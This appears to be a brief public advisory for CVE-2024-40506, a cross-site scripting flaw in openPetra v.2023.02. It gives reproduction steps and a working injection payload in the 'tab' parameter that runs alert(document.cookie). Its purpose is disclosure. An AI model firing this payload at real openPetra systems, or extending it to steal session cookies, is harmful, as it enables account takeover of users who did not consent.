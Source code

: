 # CVE-2024-40506
# Cross Site Scripting vulnerability in openPetra v.2023.02 via the serverMHospitality.asmx function.

**Description**: An unauthenticated user can steal cookies from authenticated user, by exploiting a XSS in openPetra v.2023.02 via the serverMHospitality.asmx function.

**Vulnerable Product Version**: openPetra v.2023.02  
**CVE Author**: Jansen Moreira 
**Date**: 13/07/2024  
**CVE**: CVE-2024-40506      
**CVE Link**: https://www.cve.org/CVERecord?id=CVE-2024-40506  
**NVD Link**: https://nvd.nist.gov/vuln/detail/CVE-2024-40506     
**Tenable Link**: https://www.tenable.com/cve/CVE-2024-40506  
**Confirmed on**: 13/07/2024                               
**Tested on**: Linux  
### Steps to reproduce:  
1- Access the home Page  
2- Use the following path and add the xss payload in the tab parametrer. EX.: 
```http://target.com/api/serverMHospitality.asmx?bnd=TMHospitalityWebServiceSoap&op=THospitalityWebConnector_Dummy&page=op&tab=x" onmouseover=alert(document.cookie) x="  ```                
3- Hover the mouse over the left index item to trigger the XSS  

**Payloads**:  
tab: x" onmouseover=alert(document.cookie) x="


Discoverer(s)/Credits:
Jansen Moreira 
